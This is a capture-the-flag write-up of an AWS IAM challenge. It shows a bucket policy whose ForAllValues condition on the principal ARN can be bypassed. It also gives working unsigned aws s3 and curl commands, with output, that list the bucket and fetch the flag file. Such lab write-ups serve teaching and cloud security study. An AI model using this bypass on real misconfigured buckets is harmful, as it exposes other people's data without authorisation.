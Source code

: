 # Challenge 4

## We learned from our mistakes from the past. Now our bucket only allows access to one specific admin user. Or does it?

## IAM Policy
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                },
                "ForAllValues:StringLike": {
                    "aws:PrincipalArn": "arn:aws:iam::133713371337:user/admin"
                }
            }
        }
    ]
}
```

## Solution

- https://awstip.com/creating-unintentional-ways-to-bypass-aws-iam-policies-when-using-the-forallvalues-operator-3516a7f17ed0
- ForAllValues:StringLike - It also returns true if there are no keys in the request, or if the key values resolve to a null data set, such as an empty string.
- Hence the condition is bypassed.
- The GetObject has an open access, howerver the ListBucket is conditional based on ARN.
- Using --no-sign-request we send an request without an ARN of the current user ( my assunption ). Hence PrincipalArn will not be in the key of the request.

### Method 1


``` bash

> aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/ 
An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
> aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/ --no-sign-request
2023-06-07 19:15:43         42 flag-as-admin.txt
2023-06-08 19:20:01      81889 logo-admin.png
```
```bash
> aws s3 cp s3://thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt - 
{wiz:principal-arn-is-not-xxxxxxxxxxxx}
```

### Method 2 ( Reference : https://iash.dev/posts/the-big-iam-challenge-ctf-walkthrough/ )
1. Create a curl request for the directory listing
```bash
curl "https://s3.amazonaws.com/thebigiamchallenge-admin-storage-abf1321?prefix=files/"
```
```xml
<?xml version="1.0" encoding="UTF-8"?>
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/"><Name>thebigiamchallenge-admin-storage-abf1321</Name><Prefix>files/</Prefix><Marker></Marker><MaxKeys>1000<
/MaxKeys><IsTruncated>false</IsTruncated><Contents><Key>files/flag-as-admin.txt</Key><LastModified>2023-06-07T19:15:43.000Z</LastModified><ETag>"e365cfa7365164c05d7a9c209c4d
8514"</ETag><Size>42</Size><StorageClass>STANDARD</StorageClass></Contents><Contents><Key>files/logo-admin.png</Key><LastModified>2023-06-08T19:20:01.000Z</LastModified><ETa
g>"c57e95e6d6c138818bf38daac6216356"</ETag><Size>81889</Size><StorageClass>STANDARD</StorageClass></Contents></ListBucketResult>
```
2. Create a curl request for retrieving the flag
```bash
curl "https://s3.amazonaws.com/thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt"
```

